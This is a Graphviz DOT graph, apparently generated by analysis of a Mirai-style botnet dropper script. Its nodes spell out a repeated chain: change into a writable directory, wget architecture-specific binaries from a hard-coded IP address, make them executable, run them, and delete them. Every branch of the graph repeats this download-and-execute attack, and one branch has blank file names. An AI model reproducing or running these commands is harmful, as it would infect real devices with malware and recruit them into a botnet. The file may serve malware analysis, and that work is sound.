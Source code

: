 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://212.237.42.120/pl0xmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x pl0xmips "];
12 -> 14 [label=";,"];
14 [label="./pl0xmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf pl0xmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://212.237.42.120/pl0xmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x pl0xmipsel "];
30 -> 32 [label=";,"];
32 [label="./pl0xmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf pl0xmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://212.237.42.120/pl0xsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x pl0xsh4 "];
48 -> 50 [label=";,"];
50 [label="./pl0xsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf pl0xsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://212.237.42.120/pl0xx64 "];
64 -> 66 [label=";,"];
66 [label="chmod +x pl0xx64 "];
66 -> 68 [label=";,"];
68 [label="./pl0xx64 "];
68 -> 70 [label=";,"];
70 [label="rm -rf pl0xx64 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://212.237.42.120/kittyphones "];
82 -> 84 [label=";,"];
84 [label="chmod +x kittyphones "];
84 -> 86 [label=";,"];
86 [label="./kittyphones "];
86 -> 88 [label=";,"];
88 [label="rm -rf kittyphones "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://212.237.42.120/pl0xi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x pl0xi686 "];
102 -> 104 [label=";,"];
104 [label="./pl0xi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf pl0xi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://212.237.42.120/pl0xppc "];
118 -> 120 [label=";,"];
120 [label="chmod +x pl0xppc "];
120 -> 122 [label=";,"];
122 [label="./pl0xppc "];
122 -> 124 [label=";,"];
124 [label="rm -rf pl0xppc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://212.237.42.120/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://212.237.42.120/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://212.237.42.120/pl0xsparc "];
172 -> 174 [label=";,"];
174 [label="chmod +x pl0xsparc "];
174 -> 176 [label=";,"];
176 [label="./pl0xsparc "];
176 -> 178 [label=";,"];
178 [label="rm -rf pl0xsparc "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://212.237.42.120/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://212.237.42.120/httpd "];
208 -> 210 [label=";,"];
210 [label="chmod +x httpd "];
210 -> 212 [label=";,"];
212 [label="./httpd "];
212 -> 214 [label=";,"];
214 [label="rm -rf httpd "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://212.237.42.120/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
